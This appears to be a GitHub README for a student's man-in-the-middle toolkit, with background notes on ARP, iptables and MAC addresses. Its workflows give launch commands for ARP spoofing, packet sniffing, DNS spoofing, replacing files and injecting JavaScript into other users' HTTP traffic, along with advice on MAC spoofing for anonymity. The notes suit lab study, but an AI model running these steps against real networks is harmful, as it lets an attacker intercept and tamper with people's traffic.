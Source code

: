 
## Some commands
| Command  | Explanation |
| ------------- | ------------- |
| sudo ifconfig |Lists all interfaces and details.|
|sudo ifconfig <interface>|	Lists all details for the interface.|
|sudo ifconfig <interface> (down\|up) |	Disconnect/Connect interface.|
|sudo ifconfig <interface> hw ether <new mac> |	Spoof interface mac address (a.k.a. ether)|
|netdiscover -r <ip or range> |	Find connected devices on same network.|
|arp -a	| List ARP tables for the machine. |
|arpspoof -i <interface> -t <target ip> <new ip> |	Forces target on the interface into updating its ARP tables to point our MAC address to the new ip (usually the router).|
|echo 1 > /proc/sys/net/ipv4/ip_forward OR sysctl -w net.ipv4.ip_forward=1 | Write 1 (true) on the ip_forward file which enables packet forwarding through the machine. |
| route -n |	Lists the gateways in the network connected. This is helpful to find out the router’s IP address|
|iptables -L (--list) |	Check the existing iptables rules.|
|iptables -I (FORWARD\|INPUT\|OUTPUT) -j NFQUEUE --queue-num 0 | Creates a rule on the respective  chain of the type NetfilterQUEUE and gives it the identity number of 0. |
|iptables --flush |	Flush iptable rules. Leave only defaults.|

## Some notes 
**MAC address** - media access control – is a permanent identification sequence. This sequence can be changed. Devices on a network use the MAC address to communicate. Changing the MAC address improves anonymity. It also allows you to impersonate other devices and bypass filters.

**Interfaces** – **eth0, wlan0, lo** – these are all network interfaces. Eth0 is the Ethernet network. Wlan0 is the Wifi network and Lo is the localhost network. 

**Other terms** – INET refers to the IP address. ETHER refers to the MAC address.

**Network scanner** - Virtual Machines (VMs) cannot access the host machine's wireless card due to the concept of virtualization. To be able to scan wi-fi networks a USB Wi-Fi card is required. The USB ports must be enabled on the VM machine to be able to use the host machine’s USB ports.

**Nat Network** - If there is no USB Wi-Fi card available, then to test the concepts, you can have 2 VMs running. One will be the target, and another will be Kali VM. The connection between the two should be done via a Nat Network. To set up one go to (VirtualBox) Files > Preferences > Network > (click + sign). [YouTube video](https://www.youtube.com/watch?v=y0PMFg-oAEs).

**ARP - Address resolution protocol**
The ARP links the machine’s IP address to MAC addresses which are then used for communications. Basically, when an ARP request is sent, a broadcast message packet reaches everyone on the network and asks, *"who has <some ip>? Tell <sender ip>"*. Only the target machine, whose IP is <some ip>, will reply with its <mac address>. Finally, the initial sender updates its ARP tables which can be seen by running `arp -a`. 

**A few notes about the tutorial:**
The tutorial seems to be using scapy 2.4.2 yet 2.4.3 is out. There is a namespace conflict in PyCharm so importing scapy.all may cause an issue. If you see the squiggly line when importing scapy.all as scapy, simply ignore it. Sadly, this may also prevent you from using autocomplete and intelisense.

**Issue #1 – “text.kerning_factor” message:**
[Link to SO](https://stackoverflow.com/questions/61171307/jupyter-notebook-shows-error-message-for-matplotlib-bad-key-text-kerning-factor) - Commenting out this line fixed the message that kept coming up about "text.kerning_factor".

**Scapy classes info**
Using scapy.ls(<class>) will list all the fields that can be set.

**Issue #2 - NetfilterQueue**
Does not work with python 3.7 or 3.8. Works with python 2.7.18
On PyCharm, simply add an interpreter for Python 2.7. When running use python instead of python3.

It may be required to run the following to install the package. This fixed the issue above.
sudo apt-get install python-netfilterqueue

**iptables**
[More info here](https://www.howtogeek.com/177621/the-beginners-guide-to-iptables-the-linux-firewall/)
Essentially this is a firewall utility that checks whether connections to or from your machine can happen based on the rules defined. 

There are 3 chain types:
- INPUT – Controls the behaviour of incoming connections. Ex: a user tries to SSH into your machine. Before it happens, there will be an attempt to match the IP and port to the rule in the INPUT chain.
- FORWARD – This chain is for routing packets through your machine. Like a router, data is always coming in but it’s rarely destined for the router itself. This allows you to set up your machine as a pass-through device so you to capture all packets.
- OUTPUT – Same as INPUT but concerned with outgoing connections. 

Connections can be:
- ACCEPT – Accept connection.
- DROP – Drop connection. No error sent. Acts like connection never happened.
- REJECT – Reject and send error.


**Connecting Alfa card AWUS036NHA to Kali VM**
The only way I got it to work was to go to (VirtualBox) Settings > Network > (select “Not attached”). Reboot and once Kali boots up, connect the device. Previously, I had also run 
`sudo apt-get install firmware-atheros` which may have helped by installing some drivers.



## Full workflows
Each script can be launched individually. Consider spoofing your MAC address before launching any attacks to increase your anonymity within the network. 


**To spoof your MAC address**
- Launch Mac Spoofer - `sudo python3 mac_spoofer.py -i <interface> -m <new MAC addrress>`


**To discover devices connected to the network**
Ensure you are connected to the right interface (wlan0, eth0, etc.)
- Launch Net Discover  - `sudo python3 net_discover.py -i <ip or range>`


**To sniff a target’s HTTP traffic:**
- Launch ARP spoofer - `sudo python3 arp_spoofer.py -tip <target_ip> -rip <spoofed_ip>` 
    - it may be required to adjust the interval in seconds with the `-t <float>` flag.
- Launch Packet Sniffer - `sudo python3 packet_sniffer.py -i <interface>`
- Enable packet forwarding - `sudo sysctl -w net.ipv4.ip_forward=1`
    - Disable after attack is complete. - `sudo sysctl -w net.ipv4.ip_forward=0`

The sniffed traffic is captured in the Packet Sniffer window. 

⚠️ When lauching an ARP spoofer attack I have identified that the order of execution of the scripts matters: ARP Spoofer > Packet Sniffer > Enable packet forwarding. 


**To redirect/manipulate HTTP traffic:**
In order to perform a MITM attack, a proxy needs to be created to divert the packets through our machine so that they can later be exploited/manipulated.

- Enable iptables FORWARD rule type NFQUEUE - `sudo iptables -I FORWARD -j NFQUEUE --queue-num 0`
    - Disable after attack is complete. - `sudo iptables -F`
- Launch ARP Spoofer - `sudo python3 arp_spoofer.py -tip <target_ip> -rip <spoofed_ip>`
- Launch DNS Spoofer - currently it will only redirect the request.
`sudo python dns_spoofer.py -t <target_website> -r <redirecting_ip>`
- Enable packet forwarding - `sudo sysctl -w net.ipv4.ip_forward=1`
    - Disable after attack is complete. `sudo sysctl -w net.ipv4.ip_forward=0`

The DNS Spoofer window will output every successfull attack.


**To replace a file in HTTP traffic**
- Enable iptables FORWARD rule type NFQUEUE - `sudo iptables -I FORWARD -j NFQUEUE --queue-num 0`
    - Disable after attack is complete. - `sudo iptables -F`
- Launch ARP Spoofer - `sudo python3 arp_spoofer.py -tip <target_ip> -rip <spoofed_ip>`
- Enable packet forwarding - `sudo sysctl -w net.ipv4.ip_forward=1`
    - Disable after attack is complete. `sudo sysctl -w net.ipv4.ip_forward=0`
- Launch File Interceptor - `sudo python file_interceptor.py -e <extension> -f <replacement file url>`


**To inject code into an HTTP website**
- Enable iptables FORWARD rule type NFQUEUE - `sudo iptables -I FORWARD -j NFQUEUE --queue-num 0`
    - Disable after attack is complete. - `sudo iptables -F`
- Launch ARP Spoofer - `sudo python3 arp_spoofer.py -tip <target_ip> -rip <spoofed_ip>`
- Enable packet forwarding - `sudo sysctl -w net.ipv4.ip_forward=1`
    - Disable after attack is complete. `sudo sysctl -w net.ipv4.ip_forward=0`
- Launch Code Injector - `sudo python code_injector.py -c "<js code to inject>"`


### Todo
- [ ] Script for Full workflows
- [x] Update arp_spoofer script to handle IndexError on arrays
- [ ] Test NetfilterQueue with python 3.5 and 3.6